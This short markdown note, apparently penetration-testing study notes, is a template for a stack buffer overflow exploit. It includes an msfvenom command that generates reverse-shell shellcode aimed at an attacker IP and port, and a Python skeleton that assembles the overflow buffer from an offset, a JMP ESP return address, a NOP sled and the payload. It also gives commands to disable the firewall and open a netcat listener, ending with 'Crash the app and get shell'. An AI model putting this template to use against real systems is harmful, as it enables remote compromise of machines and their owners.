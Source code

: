 # Shellcode

```Bash
msfvenom -p <payload> LHOST=<attacker ip> LPORT=<attacker port> EXITFUNC=thread -f c -a x86 -b "<bad chars>"
```

**NOTE:** If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\x90) to the payload.)

```Python
prefix = b""
offset = <offset>
overflow = b"A"*offset
returnaddr = b"<JMP ESP addr>"
padding = b"" # NOPs (e.g. \x90\x90\x90)
payload = b"<msfvenom output>"
postfix = b""
buffer = prefix + overflow + returnaddr + padding + payload + postfix
```

```Bash
sudo ufw disable
nc -lvnp <attacker port>
```

Crash the app and get shell

